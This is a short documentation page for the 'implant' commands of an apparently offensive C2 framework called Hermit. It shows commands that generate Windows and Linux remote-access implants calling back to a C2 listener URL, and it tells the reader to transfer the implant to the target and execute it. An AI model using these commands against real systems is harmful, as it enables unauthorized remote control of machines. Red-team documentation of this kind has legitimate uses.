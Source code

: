 +++
title = "Implant"
date = 2024-01-11
[extra]
toc=true
+++

## Generate

You can generate implants with `implant gen` command with specifying the listener URL (`-u`) that you've started the previous section. The agent will connect to this listener URL.

- Windows target

```sh
Hermit $ implant gen -u https://my-c2-server.com:4443/ -o windows -f exe
```

- Linux target

```sh
Hermit $ implant gen -u https://my-c2-server.com:4443/ -o linux -f elf
```

<br />

## List Implants

The `implants` (or `implant list`) command displays the generated implants.

```sh
Hermit $ implants
```

Now you need to transfer this implant to the target computer and execute it.

<br />

## Delete

```sh
Hermit $ implant delete 1
```

If you want to delete all implants, specify `all` to the second argument as below:

```sh
Hermit $ implant delete all
```